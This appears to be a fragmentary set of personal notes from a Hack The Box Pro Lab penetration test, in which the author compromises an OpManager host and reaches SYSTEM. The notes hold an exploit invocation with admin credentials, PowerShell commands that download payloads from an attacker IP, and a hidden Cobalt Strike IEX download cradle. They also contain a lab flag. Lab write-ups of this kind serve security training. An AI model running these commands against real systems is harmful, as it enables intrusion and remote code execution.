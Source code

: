 
---
Going to setup Cobalt strike server and try to catch a beacon using exploit above

```powershell
proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "powershell iwr http://10.10.14.39:8000/payload.exe"``
```

GUI home dashboard overview FLAG

We can do better than this:

OFFSHORE{sm3lls_so_g00d}


cmd /c powershell -c iwr -uri http:/10.10.14.39:8000/http_x64.exe

cmd /c powershell -c iwr -uri http:/10.10.14.39:8000




To set up the workflow in OPMANAGER

![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134110.png]]
Setup Python3 HTTP server to check if i'm able to touch my kali machine, I was!
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134218.png]]
To execute the workflow
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134456.png]]
Workflow command used.
```powershell
# cmd /c executes and deleted the file.
cmd /c powershell -c iwr -uri http://10.10.14.39:8000/config.xml -outfile C:\Temp\config.xml

```
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134626.png]]
To Start Cobalt Strike Server - make sure to have the 10.10.14.39 ip hosting 
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005135234.png]]
Testing Powershell - bitsadmin is what was used previously
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005140207.png]]
Listener `/a`:
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005140955.png]]
Command that gets spit out: 
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/a'))"

This one worked for me had to execute twice though.
On as System
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005141231.png]]
`cd C:\\Users\Administrator\Desktop` and `download flag.txt`
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005141913.png]]
Sync files 
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005142103.png]]
Saved in.
